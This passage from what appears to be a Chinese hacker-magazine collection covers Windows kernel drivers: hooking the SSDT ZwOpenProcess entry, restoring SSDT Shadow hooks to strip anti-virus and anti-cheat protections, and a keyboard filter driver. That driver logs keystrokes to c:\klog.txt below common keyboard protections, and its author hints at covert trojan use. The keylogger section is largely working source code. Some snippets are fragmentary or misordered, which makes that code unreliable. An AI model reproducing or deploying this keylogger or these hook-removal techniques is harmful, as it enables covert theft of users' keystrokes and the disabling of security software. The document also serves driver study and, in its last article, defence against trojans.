    IN POBJECT_ATTRIBUTES ObjectAttributes,
    IN PCLIENT_ID ClientId);

REALZWOPENPROCESS RealZwOpenProcess;
RealZwOpenProcess = (REALZWOPENPROCESS)
(((PServiceDescriptorTableEntry)KeServiceDescriptorTable)->
ServiceTableBase[*((PULONG)((PUCHAR)ZwOpenProcess + 1))]);
```

执行 Hook 地址替换为第 6 步，其修改如下：

```c
((PServiceDescriptorTableEntry)KeServiceDescriptorTable)->
ServiceTableBase[*((PULONG)((PUCHAR)ZwOpenProcess + 1))] =
(ULONG)HookZwOpenProcess;
```

最后的清理工作重复第 9 步还原 Hook。在 Unload 中处理步骤替换为：

`((PServiceDescriptorTableEntry)KeServiceDescriptorTable)->ServiceTableBase[*((PULONG)((PUCHAR)ZwOpenProcess+1))] = RealZwOpenProcess;`

就可以了。

通过加载我们的驱动，可以在 IceSword 的 SSDT 中看到 Ring0.sys 驱动已经成功地 Hook 了 NtOpenProcess，内核地址由 `0x8093B766` 变为了 `0xB518F1B0`，如图 1 所示。


图 1

Hook ZwOpenProcess 的完整工程源代码我已随文提供，使用 Win2000 DDK 编译工程，最终生成的驱动可以稳定运行在 Windows 2000/XP/2003/Vista/2008 系统上，但 Vista 以后系统驱动加载需要禁用 UAC，测试时请注意。最后看一下测试效果，通过 Ring3 传入驱动的 PID 为 548，则结束该进程时提示“无法完成操作，拒绝访问”，如图 2 所示。

最后还要说的是，Hook SSDT 还有很多不足之处。比如说通过还原 SSDT 或取得真实的 Native API 地址后，执行 ZwOpenProcess 就不是那么管用了。SSDT 还是很上层的东西，不过作为实用简单的方法，对于防止目前大多数 Ring3 下的病毒结束进程还是很管用的。


图 2

## Ring0下恢复

### SSDT Shadow


文／图 小伟的小伟[OGiNr]

系统中存在着一张名为“SSDT Shadow”的系统服务表，SSDT Shadow 里面保存的指针指向的函数与 GDI 有关。用户态中的 GDI32.dll 和 User32.dll 中的函数通过中断进入内核态，分发器（KiFastCallEntry/KiSystemService）根据服务 ID 调用相关的内核态函数，这些函数位于 Win32k.sys。许多 Anti-Virus、Anti-Rootkit、网游等软件的附属驱动也通过修改 SSDT Shadow 进行自我保护。例如某些网游挂接了按键相关的函数（NtUserSendInput 等）来防止模拟按键，Anti-Virus 通过挂接某些窗口相关的函数（NtUserPostMessage 等）来防止被关闭。因此，有的时候摘掉 SSDT Shadow 的钩子可以为我们的研究清理路障。

下面就来谈谈 SSDT Shadow 的恢复，这是我的一点学习历程，在此奉献给大家。由于技术水平有限，如有纰漏，还请各位读者不吝赐教。

#### 定位 KeServiceDescriptorTableShadow 地址

和从 Ring0 恢复 SSDT 类似，恢复 Shadow 的步骤如下：

- 1) 获取服务表的地址
- 2) 获取服务表所在的模块的基址
- 3) 计算出服务表在文件中的偏移
- 4) 根据偏移读取文件中的原始信息，得到原始函数地址
- 5) 将原始地址写入服务表

SSDT 的恢复相比较而言比较简单，因为 SSDT 被内核导出了，所以用导出变量即可完成第一步。然后获取 ntoskrnl.exe 的基址，就可以计算出表在文件中的偏移，接下来的事情就是读取文件中的原始地址，与当前表中的地址进行判断。但是，SSDT Shadow 服务表（KeServiceDescriptorTableShadow）却并没有被内核导出，所以我们需要自己定位。定位方法有很多种，这里介绍一种通过搜索 KeAddSystemServiceTable（已导出）函数的内存空间得到 Shadow 表地址的方法。

KeAddSystemServiceTable 的反汇编代码如下：

```text
lkd> u KeAddSystemServiceTable L 10
nt!KeAddSystemServiceTable:
805ba589 8bff           mov edi,edi
805ba58b 55             push ebp
805ba58c 8bec           mov ebp,esp
805ba58e 837d1803       cmp dword ptr [ebp+18h],3
805ba592 774e           ja nt!KeAddSystemServiceTable+0x6b
...
805ba5a3 8d8840a65580   lea ecx,nt!KeServiceDescriptorTableShadow (8055a640)[eax]
// 我们可以从这里得到 KeServiceDescriptorTableShadow
...
```

显然，在 KeAddSystemServiceTable 中搜索特征码 0x888D（lea ecx, xxx）即可得到 KeServiceDescriptorTableShadow 的地址，搜索代码如下：

```c
UCHAR *cPtr;
UCHAR *pOpcode;
ULONG Length;
for (cPtr = (PUCHAR)KeAddSystemServiceTable;
     cPtr < (PUCHAR)KeAddSystemServiceTable + ... ) {
    ...
}

cPtr += PAGE_SIZE;
Length = SizeOfCode(cPtr, &pOpcode);
if (!Length) break;
if (*(PUSHORT)cPtr == 0x888D) {
    KeServiceDescriptorTableShadow =
      (PKSERVICE_TABLE_DESCRIPTOR)*((ULONG *)((ULONG)pOpcode + 2));
    break;
}
```

#### 获取 win32k.sys 加载基址

因为 KeServiceDescriptorTableShadow 是位于 win32k.sys 中的，所以下来的任务就是获取 win32k.sys 的加载基址。获取方法很多，例如使用 NtQuerySystemInformation 枚举内核模块（注意某些 NT 系列函数需要在 PreviousMode=KernelMode 的线程中调用），或使用 ZwQuerySystemInformation。这里给出一种更简单且可靠的方法。

在《Rootkits: Subverting the Windows Kernel》中曾介绍过一种断链隐藏驱动的方法。在 _DRIVER_OBJECT 结构的 0x014 偏移处是 DriverSection 结构：

```text
lkd> dt _DRIVER_OBJECT
nt!_DRIVER_OBJECT
+0x000 Type           : Int2B
+0x002 Size           : Int2B
+0x004 DeviceObject   : Ptr32 _DEVICE_OBJECT
+0x008 Flags          : Uint4B
+0x00c DriverStart    : Ptr32 Void
+0x010 DriverSize     : Uint4B
+0x014 DriverSection  : Ptr32 Void
...
```

而 DriverSection 其实就是一个 _LDR_DATA_TABLE_ENTRY 结构的指针，_LDR_DATA_TABLE_ENTRY 结构的部分成员如下：

```text
lkd> dt _LDR_DATA_TABLE_ENTRY
nt!_LDR_DATA_TABLE_ENTRY
+0x000 InLoadOrderLinks          : _LIST_ENTRY
+0x008 InMemoryOrderLinks        : _LIST_ENTRY
+0x010 InInitializationOrderLinks: _LIST_ENTRY
+0x018 DllBase                   : Ptr32 Void
+0x01c EntryPoint                : Ptr32 Void
+0x020 SizeOfImage               : Uint4B
+0x024 FullDllName               : _UNICODE_STRING
+0x02c BaseDllName               : _UNICODE_STRING
+0x034 Flags                     : Uint4B
...
```

这个结构中的 3 个双向链表 InLoadOrderLinks、InMemoryOrderLinks 和 InInitializationOrderLinks 连接着所有已经加载的模块。顾名思义，DllBase 是模块基址，SizeOfImage 是模块大小，FullDllName 是完整模块名。调试过 shellcode 的读者应很熟悉该结构，在 Ring3 进程模块链表（PEB）中也有类似结构。

因此可以遍历 DRIVER_OBJECT 中 DriverSection 指向的 LDR_DATA_TABLE_ENTRY 的某个链表（InLoadOrderLinks/InMemoryOrderLinks/InInitializationOrderLinks 三者之一）来获取加载模块信息。用于遍历的 DRIVER_OBJECT 可直接使用 DriverEntry 的第一个参数 pDriverObj。

```c
PLIST_ENTRY pList = NULL;
PLDR_DATA_TABLE_ENTRY Ldr = NULL;
pList = ((PLIST_ENTRY)pDriverObj->DriverSection)->Flink;
do {
    Ldr = CONTAINING_RECORD(pList, LDR_DATA_TABLE_ENTRY, InLoadOrderLinks);
    if (Ldr->EntryPoint && Ldr->FullDllName.Buffer) {
        if (!wcsicmp(Ldr->FullDllName.Buffer,
            L"\\systemroot\\system32\\win32k.sys")) {
            pWin32kBase = Ldr->DllBase;
            break;
        }
    }
    pList = pList->Flink;
} while (pList != ((LIST_ENTRY*)pDriverObj->DriverSection)->Flink);
```

## 服务表简单分析

在恢复 SSDT Shadow 之前，我们先复习服务表的一些基本知识。系统服务表的结构定义如下：

```c
typedef struct _KSERVICE_TABLE_DESCRIPTOR {
    PULONG_PTR Base;
    PULONG     Count;
    ULONG      Limit;
    PUCHAR     Number;
} KSERVICE_TABLE_DESCRIPTOR, *PKSERVICE_TABLE_DESCRIPTOR;
```

其中第 1 个成员 Base 即函数指针表的基址，第 3 个成员是函数个数。在此我们仅关注这两个成员。成员 2、4 分别是系统服务调用次数（仅在 Checked 版本中使用）、参数长度，由于与本文无关，所以不作深入讨论。

我们可以使用 kd 查看系统服务描述表中的内容（KeServiceDescriptorTable(Shadow) 其实是 KSERVICE_TABLE_DESCRIPTOR 结构的数组，也就是说 KeServiceDescriptorTable(Shadow) 实际上是一组系统服务描述表——在 Windows XP SP2 下组中的成员数 = 4）：

```text
lkd> dd KeServiceDescriptorTable
8055a680 804e36a8 00000000 0000011c 80513eb8
8055a690 00000000 00000000 00000000 00000000
lkd> dd KeServiceDescriptorTableShadow
8055a640 804e36a8 00000000 0000011c 80513eb8
8055a650 bf999b80 00000000 0000029b bf99a890
8055a660 00000000 00000000 00000000 00000000
8055a670 00000000 00000000 00000000 00000000
8055a680 804e36a8 00000000 0000011c 80513eb8
8055a690 00000000 00000000 00000000 00000000
lkd> dd bf999b80
bf999b80 bf935fce bf947b65 bf88cbdb bf93f740
bf999b90 bf94917c bf936262 bf936307 bf83b6b5
......
```

每一行（4 字节 * 4 项 = 16 字节）就是一个 KSERVICE_TABLE_DESCRIPTOR 结构，由于有些表（在我测试的系统上，第 3、4 张表未使用，KeServiceDescriptorTable 中不存在第 2 张表）未被系统使用，所以是空的。观察数据可以发现，KeServiceDescriptorTable 和 KeServiceDescriptorTableShadow 中的第 1 张表的 Base 是同一个地址（所以 SSDT HOOK 不需要对 GUI 线程区别对待，GUI 线程指的是使用 SSDT Shadow 表的线程），该地址也就是 SSDT 的基址（输入 `dd 804e36a8` 就可以得到当前的 SSDT 函数表）。

KeServiceDescriptorTableShadow 中的第 2 张表的 Base 即指向 SSDT Shadow 表基址（输入 `dd bf999b80` 可以得到当前的 SSDT Shadow 函数表，我们可以使用 `ln` 命令解析函数名）。

## 获取 Shadow 的文件偏移

获取文件偏移相对简单些，只要用当前的 KeServiceDescriptorTableShadow 表地址减去 Win32k.sys 的加载基址即可得到文件偏移，然后通过这个偏移就可以访问到文件中原始表的数据。代码如下：

```c
ulShadowBase = *(ULONG*)&KeServiceDescriptorTableShadow[1].Base; // 得到基址
ulShadowRaw  = ulShadowBase - (ULONG)pWin32kBase;
// 得到 Shadow 表在原始文件中的偏移
```

## 获取 SSDT Shadow 原始地址

好了，开始最后一步，从 win32k.sys 中读取原始地址，然后和当前表中的地址进行比较即可。需要说明的一点是 KeServiceDescriptorTableShadow 并不是常驻在内存中的（KeServiceDescriptorTableShadow 处于 PagedPool），也就是说它有可能被换出到页面文件中，对 KeServiceDescriptorTableShadow 的操作应该也在有 GDI 的线程中，否则就会因存取无效地址而蓝屏。

在附带的示例驱动中，我把操作放在了 IRP_MJ_CREATE 对应的派遣例程中，因为我加载驱动使用带 GDI 的程序，而 IRP_MJ_CREATE 的派遣例程正好在本进程的上下文中，所以满足条件。当然，更好更稳定的方法是获取 csrss.exe 的 EPROCESS，然后使用 KeAttachProcess 等 Attach 到 csrss.exe 中完成操作。

所有重点部分都在上面说完了，相信读者的头脑中已经有了思路，这里放出源码供大家参考，在重点部分我都做了注释，完整源码请参考工程文件。

```c
NTSTATUS status;
HANDLE hFile; // win32k.sys 文件句柄
OBJECT_ATTRIBUTES ObjAttr;
UNICODE_STRING ustrWin32k;
IO_STATUS_BLOCK ioStatus;
ULONG ulShadowRaw = 0;
ULONG ulShadowBase = 0;
PVOID PoolArea = NULL;
FILE_POSITION_INFORMATION fpi;
LARGE_INTEGER Offset;
ULONG OrigAddress = 0;
ULONG CurAddress = 0;
ULONG i = 0;
ULONG ulCount = 0;
PULONG pAddr;
if ((pWin32kBase == NULL) || KeServiceDescriptorTableShadow == NULL) {
    dprintf("Error.");
    return STATUS_UNSUCCESSFUL;
}
ulCount = KeServiceDescriptorTableShadow[1].Limit;
// Limit 就是表中函数的个数

dprintf("Count Of Shadow : 0x%X\n", ulCount);
ulShadowBase = *(ULONG*)&KeServiceDescriptorTableShadow[1].Base; // 得到基址
ulShadowRaw = ulShadowBase - (ULONG)pWin32kBase;
// 得到 Shadow 表在原始文件中的偏移
RtlInitUnicodeString(&ustrWin32k, L"\\SystemRoot\\System32\\win32k.sys");
PoolArea = ExAllocatePool(PagedPool, sizeof(ULONG) * ulCount);
// 分配空间，用于保存读取到的数据
if (!PoolArea) {
    dprintf("PoolArea is null\n");
    return STATUS_UNSUCCESSFUL;
}

RtlZeroMemory(&ObjAttr, sizeof(ObjAttr));
InitializeObjectAttributes(
    &ObjAttr,
    &ustrWin32k,
    OBJ_KERNEL_HANDLE | OBJ_CASE_INSENSITIVE,
    NULL,
    NULL);

// 打开文件
status = IoCreateFile(
    &hFile,
    FILE_READ_ATTRIBUTES,
    &ObjAttr,
    &ioStatus,
    0,
    FILE_ATTRIBUTE_NORMAL,
    FILE_SHARE_READ,
    FILE_OPEN,
    0,
    NULL,
    0,
    0,
    NULL,
    IO_NO_PARAMETER_CHECKING);
if (!NT_SUCCESS(status)) {
    dprint("IoCreateFile Error : 0x%X", status);
    goto __exit;
}

// 设置文件偏移
Offset.LowPart = ulShadowRaw;
Offset.HighPart = 0; // 开始读取数据
status = ZwReadFile(
    hFile,
    NULL,
    NULL,
    NULL,
    &ioStatus,
    PoolArea,
    ulCount * sizeof(ULONG),
    &Offset,
    NULL);
if (!NT_SUCCESS(status)) {
    dprint("ZwReadFile Error : 0x%X");
    goto __exit;
}

pAddr = (PULONG)PoolArea;
// 比较原始地址与当前的地址并输出调试
for (i = 0; i < ulCount; i++) {
    OrigAddress = *pAddr; // 指向原始地址
    CurAddress = KeServiceDescriptorTableShadow[1].Base[i]; // 当前地址
    if (OrigAddress != CurAddress) {
        dprint("ID:%-3d  OrigAddr:0x%X  CurAddr:0x%X\n", i, OrigAddress, CurAddress);
    } else {
        dprint("ID:%-3d  OrigAddr:0x%X  CurAddr:0x%X\n", i, OrigAddress, CurAddress);
    }
    pAddr++;
}
```

```c
__exit:
if (PoolArea) {
    ExFreePool(PoolArea); // 释放空间
}

if (hFile) {
    ZwClose(hFile); // 关闭句柄
}
return status;
```

以上便是核心源码，希望大家能从中受益。最终效果如下图所示，我的测试系统为 Windows XP SP2。


## 待解决的问题

比较现实的一个问题是，我们如何获取对应函数的名字。如果没有函数名字，实战中分析起来会比较麻烦。和 SSDT 一样，在不同版本的 NT 系统中，函数的数量会发生变化。若是 SSDT 的话，还可以从 ntdll.dll 的导出表里面获取。但是，Shadow 表中有的函数根本没导出，这给我们带来了一定的麻烦。关于获取函数名字的方法有很多讨论，有的解析符号文件，也有的用硬编码函数名表。很多 Anti-Rootkit 使用的方法是硬编码函数名表，就是为不同的系统准备几张函数名表，然后根据系统版本来确定使用哪张函数名表。这种方法有些空间换时间的味道。如果哪位读者有好的办法，也希望能和我们共同分享一下。

关于恢复原始地址，需要注意的问题还是 GDI 线程以及写保护等。显然，Sysinternals 的那几个修改 SSDT 的宏经过一点点修改就可以用来修改 SSDT Shadow，不过使用 InterlockedExchange 会比较安全。

本文涉及到的工程在 DDK 2K3 下编译通过，在 Windows XP SP2 下也测试通过。

【本文涉及的代码（程序），请见随书光盘】

## 让一切输入都难逃法眼  
## ——驱动双键盘过滤器钩子的发现

文／图 中国石油大学胜利学院 小麒麟（王龙）

《黑客防线》杂志之前给大家带来了 SSDT 的详细说明，基本上挂钩 SSDT 就可以实现我们想要的很多功能了。但是有时候，挂钩 SSDT 有局限性，这时我们就可以充分利用 Windows 驱动的分层特性，充分挖掘系统的特性。上一篇文章可以说写得有些快，这篇我从头讲起，希望对有兴趣进入驱动编程的人有些帮助。

驱动分层结构是 Windows 的特性，I/O 管理器有两个重要设计。一是 Windows 中的任何一个驱动程序都可被设计成 Client/Server 模式。对于客户端驱动，通过 IoGetDeviceObjectPointer 之类的函数获取服务端驱动导出的 Device 对象，通过 I/O 管理器的 IoCallDriver 请求服务端的服务。IoCallDriver 实际上根据客户端的调用参数（通过 IRP）调用服务端的派遣入口（回调函数）接受客户端的请求。二是 I/O 管理器实现一个分层的数据结构，在 DEVICE_OBJECT 对象中保存某种关系，自动将请求 IRP 发给设备栈中的最高的一个设备，由其决定如何处理，或是自身处理，或是向下传递，以达到分层的目的。鉴于这种能力，分层驱动模型可以实现很多应用，如文件监控、加密、防病毒，等等。由于 PnP 的引入，这种应用将更加广泛。

设备对象是系统为帮助软件管理硬件而创建的数据结构，一个物理硬件可以有多个这样的数据结构。处于堆栈最底层的设备对象称为物理设备对象（physical device object），或简称 PDO。在设备对象堆栈的中间某处有一个对象称为功能设备对象（functional device object），或简称 FDO。在 FDO 的上面和下面还会有一些过滤器设备对象（filter device object）。位于 FDO 上面的过滤器设备对象称为上层过滤器，位于 FDO 下面（但仍在 PDO 之上）的过滤器设备对象称为下层过滤器。如图 1 所示。

首先讲讲 I/O 请求报文。IRP 是一个具有不完全文档说明的结构，由 I/O 管理器进行分配，用于在驱动程序之间传递特有的数据。


图1

对驱动程序分层时，它会注册到一个链中，如果向链接起来的驱动程序发出 I/O 请求，就会创建一个 IRP 并将其传递给链中所有的驱动程序。链中最顶端的驱动程序最先接受 IRP，链中最后一个驱动程序负责与硬件通信。I/O 管理器准确知道链中驱动程序的数目。在分配的 IRP 中为链中每个驱动程序添加一个叫做 IO_STACK_LOCATION 的空间。IRP 头部储存 IO_STACK_LOCATION 索引，也储存当前 IO_STACK_LOCATION 的一个指针，当我们调用 IoCallDriver 时，就会递减这个索引。具体 IRP 等的结构说明，请大家查看 DDK 吧，我就不啰嗦了。如图 2 所示。

本文要讲的是一个键盘过滤驱动，它通过分层机制，捕获键盘的扫描码，转换成按键字符并保存下来。通过 DeviceTree 工具可以显示键盘驱动的结构。这里说一下，我们的程序要挂住的是 KeyboardClass0，通过 DeviceTree 可以看到它的设备标记，这对以后我们写程序是有很大帮助的。如图 3 所示。

这里解释一下，我们要动态卸载驱动程序，所以要挂接 KeyboardClass0 才可以，而不能挂接如图 1 所示的上层过滤器驱动。


图2


图3

键盘过滤驱动是工作在异步模式下的，这一点很重要。为了得到一个按键操作，首先需要发送一个 IRP_MJ_READ 到驱动的设备栈，驱动收到这个 IRP 会做什么样的处理呢？它会一直保持这个 IRP 为 pending 未确定状态，直到一个键被真正地按下，驱动此时就会立刻完成这个 IRP，并将刚按下的键的相关数据作为该 IRP 的返回值。在该 IRP 带着对应的数据返回后，操作系统将这些值传递给对应的事件系统来处理，然后做什么呢？系统紧接着又会立刻发送一个 IRP_MJ_READ 请求，等待下次的按键操作，重复以上的步骤。也就是说，任何时候，设备栈底都会有一个键盘的 IRP_MJ_READ 请求处于 pending 未确定状态。

这意味着只有在该 IRP 完成返回、新的 IRP 请求还未发送到的时候，才会有一个很短暂的时间。由此我们想到，按照一般的方式动态卸载键盘过滤驱动的时候，基本都是有 IRP_MJ_READ 请求处于 pending 未确定状态，而我们却卸载了驱动，以后按键的时候需要处理这个 IRP 却找不到对应的驱动，就会导致蓝屏。

栈底有 IRP，为什么我们的驱动卸载就会有问题呢？这是由于 IRP_MJ_READ 是异步的，对于异步的请求，基本上我们会关心这个异步请求的结果。那么如何得到完成后的数据呢？大家一定想到了，设置完成例程。对，就是这样，由于我们给 IRP_MJ_READ 设置了完成例程，该 IRP 完成后会调用我们的完成例程，使我们有处理返回数据的机会。

在这样的情况下，我们动态卸载了键盘过滤驱动，也就是说完成例程已经被我们卸载掉了，而以后再次按键在完成这个 IRP 后会调用这个根本已经不存在了的东西，结果蓝屏就可想而知了。

那是不是不设置完成例程就不会有问题了呢？答案是肯定的。可是没有完成例程我们就没有办法处理到返回的数据，也就在很大程度上失去了键盘过滤驱动的作用了。

如何做到既能设置完成例程来处理数据又可以实现动态卸载呢？我们有两个办法。当有 IRP_MJ_READ 到来的时候，不为这个 IRP 设置完成例程，也不将该 IRP 向下传递，而是创建一个自己的 IRP，并参考前面的 IRP_MJ_READ 做对应的设置，然后为自己的这个 IRP 设置完成例程后，将自己的 IRP 向下传递，并设置原来的 IRP_MJ_READ 为 pending 状态。当有按键操作时，自己的 IRP 返回触发为它设置的完成例程，在这里取得返回的数据填充前面的 IRP_MJ_READ 后，将该 IRP_MJ_READ 完成返回。相当于我们使用了一个代理，而这一切都是透明的。到这里我们实现了完成例程，也就是有了处理数据的机会。

假设现在我们收到卸载的请求，看看当前所有的 IRP 处于何种状态。

- 1. 一个我们保存的原来的 IRP_MJ_READ 处于 pending，注意它并没向下传递，也未设置完成例程。
- 2. 一个我们自己构造的 IRP 处于栈底，并且注意我们为自己的这个 IRP 设置了完成例程。

基本上就这 2 个 IRP。由于我们自己的 IRP 有完成例程，所以直接卸载会出现和上面一样的情况，导致蓝屏。如何处理呢？因为是我们自己构造的 IRP，所以可以将其取消，这样并不会有太大的影响。然后将原来的这个 IRP_MJ_READ 向下传递，这里千万注意，我们自己的驱动马上要卸载，所以传递原来的 IRP_MJ_READ 的时候不要给它设置完成例程。向下传递后卸载我们的驱动。当然，这里还有更简单的办法，使用计数器也可以实现，还简单得多，所以我们这里使用计数器来实现。这里就不多啰嗦了，详细内容可看程序的说明。

写驱动程序要有一个入口 DriverEntry，有人会问如何配置一个方便的驱动开发环境，我推荐是 VC + DDK + DS，这也是它们安装的顺序。我习惯了 VC++ 的开发环境，我想大多数人也是，所以即使用 DDK 开发也可以装个 DS。呵呵，下面看程序，我只介绍几个重要例程，其他的请看随文的源代码。

```c
NTSTATUS DriverEntry(IN PDRIVER_OBJECT theDriverObject, IN PUNICODE_STRING RegistryPath)
{
    NTSTATUS status = 0;
    int i;
    PDEVICE_EXTENSION pKeyboardDeviceExtension;
    IO_STATUS_BLOCK file_status;
    OBJECT_ATTRIBUTES objAttrib;
    CCHAR ntNameFile[100] = "\\DosDevices\\c:\\klog.txt";
    STRING ntNameString;
    ...
}
```

```c
UNICODE_STRING uFileName;

for (i = 0; i < IRP_MJ_MAXIMUM_FUNCTION; i++)
{
    // 这里我们设置一个 DispatchPassDown 例程来处理一些请求
    theDriverObject->MajorFunction[i] = DispatchPassDown;
}

// 在 DispatchRead 中处理键盘的读请求
theDriverObject->MajorFunction[IRP_MJ_READ] = DispatchRead;

// HookKeyboard hook 键盘驱动
HookKeyboard(theDriverObject);
// 建立一个线程用来记录键盘动作
InitThreadKeyLogger(theDriverObject);

// 初始化一个旋转锁来访问链表
pKeyboardDeviceExtension = (PDEVICE_EXTENSION)
    theDriverObject->DeviceObject->DeviceExtension;
InitializeListHead(&pKeyboardDeviceExtension->QueueListHead);
KeInitializeSpinLock(&pKeyboardDeviceExtension->lockQueue);
KeInitializeSemaphore(&pKeyboardDeviceExtension->semQueue, 0, MAXLONG);

// 创建一个记录文件
RtlInitAnsiString(&ntNameString, ntNameFile);
RtlAnsiStringToUnicodeString(&uFileName, &ntNameString, TRUE);

InitializeObjectAttributes(&objAttrib, &uFileName,
    OBJ_CASE_INSENSITIVE,
    NULL, NULL);

status = ZwCreateFile(&pKeyboardDeviceExtension->hLogFile,
    GENERIC_WRITE,
    &objAttrib,
    &file_status,
    NULL,
    FILE_ATTRIBUTE_NORMAL,
    0,
    FILE_OPEN_IF,
    FILE_SYNCHRONOUS_IO_NONALERT,
    NULL,
    0);
RtlFreeUnicodeString(&uFileName);

theDriverObject->DriverUnload = OnUnload;

return STATUS_SUCCESS;
```

```c
PDEVICE_EXTENSION pKeyboardDeviceExtension;
PDEVICE_OBJECT pKeyboardDeviceObject;
CCHAR ntNameBuffer[50] = "\\Device\\KeyboardClass0";
STRING ntNameString;
UNICODE_STRING uKeyboardDevice;

NTSTATUS status = IoCreateDevice(theDriverObject,
    sizeof(DEVICE_EXTENSION),
    NULL,
    FILE_DEVICE_KEYBOARD,
    0,
    TRUE,
    &pKeyboardDeviceObject);
if (!NT_SUCCESS(status))
    return status;

// 设置新设备的标志与底层键盘设备标记相同
pKeyboardDeviceObject->Flags = pKeyboardDeviceObject->Flags | DO_BUFFERED_IO | DO_POWER_PAGABLE;
pKeyboardDeviceObject->Flags = pKeyboardDeviceObject->Flags & ~DO_DEVICE_INITIALIZING;

// 在 DriverEntry 例程中创建的设备对象，并不需要必须清除 DO_DEVICE_INITIALIZING 标记
// 这段因为这个工作将会由 I/O 管理器自动完成。然而，如果创建了其它设备对象，则需要进行该清除工作。

// 对 DEVICE_EXTENSION 结构清 0
RtlZeroMemory(pKeyboardDeviceObject->DeviceExtension,
    sizeof(DEVICE_EXTENSION));

pKeyboardDeviceExtension = (PDEVICE_EXTENSION)
    pKeyboardDeviceObject->DeviceExtension;

// 把 KeyboardClass0 转换成一个 UNICODE 字符串
RtlInitAnsiString(&ntNameString, ntNameBuffer);
RtlAnsiStringToUnicodeString(&uKeyboardDevice,
    &ntNameString, TRUE);

// 准备工作完成后放置过滤钩子
IoAttachDeviceToDeviceStack(pKeyboardDeviceObject,
    &uKeyboardDevice,
    &pKeyboardDeviceExtension->pKeyboardDevice);
RtlFreeUnicodeString(&uKeyboardDevice);
return STATUS_SUCCESS;
}
```

在 DispatchRead 中，我们要记录挂起的 IRP 数目，这在以后的卸载例程和处理例程中有用，在卸载驱动时可以进行判断。这里我们设置完成例程，使得 IRP 在返回时能得到通知，然后在 OnReadCompletion 中进行处理。

下面是在 HookKeyboard 中创建设备的代码。

```c
NTSTATUS HookKeyboard(IN PDRIVER_OBJECT theDriverObject)
{
    // IRQL = PASSIVE_LEVEL
    // 建立过滤驱动对象
}
```

```c
NTSTATUS DispatchRead(IN PDEVICE_OBJECT theDeviceObject, IN PIRP pIrp)
{
    // IRQL = DISPATCH_LEVEL
    IoCopyCurrentIrpStackLocationToNext(pIrp);
    IoSetCompletionRoutine(pIrp,
        OnReadCompletion,
        theDeviceObject,
        TRUE,
        TRUE,
        TRUE);

    numPendingIrps++;
    // 记录挂起的 IRP 数目
    return IoCallDriver(((PDEVICE_EXTENSION)
        theDeviceObject->DeviceExtension)->pKeyboardDevice, pIrp);
}
```

在 OnReadCompletion 中，我们完成对 IRP 的处理，然后递减计数。

```c
NTSTATUS OnReadCompletion(IN PDEVICE_OBJECT theDeviceObject, IN PIRP pIrp, IN PVOID Context)
{
    // IRQL = DISPATCH_LEVEL
    PKEYBOARD_INPUT_DATA keys;
    int numKeys;
    int i;
    KEY_DATA* kData;
    PDEVICE_EXTENSION pKeyboardDeviceExtension;
    pKeyboardDeviceExtension = (PDEVICE_EXTENSION)theDeviceObject->DeviceExtension;

    if (pIrp->IoStatus.Status == STATUS_SUCCESS)
    {
        keys = (PKEYBOARD_INPUT_DATA)pIrp->AssociatedIrp.SystemBuffer;
        numKeys = pIrp->IoStatus.Information / sizeof(KEYBOARD_INPUT_DATA);
        for (i = 0; i < numKeys; i++)
        {
            if (keys[i].Flags == KEY_MAKE)
                DbgPrint("%s\n", "Key Down");

            kData = (KEY_DATA*)ExAllocatePool(NonPagedPool, sizeof(KEY_DATA));
            kData->KeyData = (char)keys[i].MakeCode;
            kData->KeyFlags = (char)keys[i].Flags;

            ExInterlockedInsertTailList(&pKeyboardDeviceExtension->QueueListHead,
                                        &kData->ListEntry,
                                        &pKeyboardDeviceExtension->lockQueue);
            KeReleaseSemaphore(&pKeyboardDeviceExtension->semQueue, 0, 1, FALSE);
        }
    }

    if (pIrp->PendingReturned)
        IoMarkIrpPending(pIrp);

    numPendingIrps--;
    return pIrp->IoStatus.Status;
}
```

我们在卸载例程时要注意，要等待按下一个键后卸载才会完成。

```c
VOID OnUnload(IN PDRIVER_OBJECT theDriverObject)
{
    KTIMER kTimer;
    LARGE_INTEGER timeout;
    PDEVICE_EXTENSION pKeyboardDeviceExtension;

    pKeyboardDeviceExtension = (PDEVICE_EXTENSION)
        theDriverObject->DeviceObject->DeviceExtension;

    IoDetachDevice(pKeyboardDeviceExtension->pKeyboardDevice);
    timeout.QuadPart = 1000000; // 1s
    KeInitializeTimer(&kTimer);

    while (numPendingIrps > 0)
    {
        KeSetTimer(&kTimer, timeout, NULL);
        KeWaitForSingleObject(&kTimer, Executive, KernelMode, FALSE, NULL);
    }

    pKeyboardDeviceExtension->bThreadTerminate = TRUE;
    KeReleaseSemaphore(&pKeyboardDeviceExtension->semQueue, 0, 1, TRUE);
    KeWaitForSingleObject(pKeyboardDeviceExtension->pThreadObject,
                          Executive, KernelMode, FALSE, NULL);

    ZwClose(pKeyboardDeviceExtension->hLogFile);
    IoDeleteDevice(theDriverObject->DeviceObject);
    DbgPrint("My Driver Unloaded!");
    return;
}
```

具体的代码，大家请看随文的程序。这样我们就完成了一个键盘的过滤驱动。由于它处在较低的等级上，直接接受键盘扫描码，所以现行的键盘保护技术对其无效。由于不推荐大家做木马，所以就不介绍如何实现 sys 和 exe 文件的捆绑及通信等技术了，但可以给大家一个思路：可以用一个 exe 文件或者驱动判断相应的程序是否启动，然后开启键盘记录功能……


图4

【本文涉及的代码（程序），请见随书光盘】

Icefire：木马是一种客户端和服务端模式的应用程序，它的运行离不开一个畅通无阻的网络。离开了网络，它就掀不起多大的风浪。从这点上说，防火墙技术可以解决一部分木马问题，它可以通过包过滤和状态检测，禁止某些协议的某些端口来查封已知的木马。但是防火墙不能解决所有的问题，大部分的防火墙只防外不防内，而百分之八十的攻击都来自内部，这样就会造成大量的防火墙对未知木马无能为力。不过不要忘了注册表这个 Windows 下的好东西，如果我们从内核状态下去拦截注册表的恶意操作的话，再强的木马都无法发挥出它的功效了！


### 从技术角度拦截注册表

文／岫林仓

木马是一种特殊的应用程序，它通过特殊的手段侵入到用户系统，实现自我加载，从而为远程攻击打开方便之门。木马往往是由人操纵的，它带来的威胁丝毫不亚于病毒。本文通过一种编写驱动程序的方法来介绍如何防范未知的木马。

面对这些“木马化”的病毒或者说是“病毒化”的木马，包括微软自身，除了修修补补之外也没有提供一个很好的办法。所以这里的方法也只能提供参考，它不能解决所有的问题。

## 木马从何处来

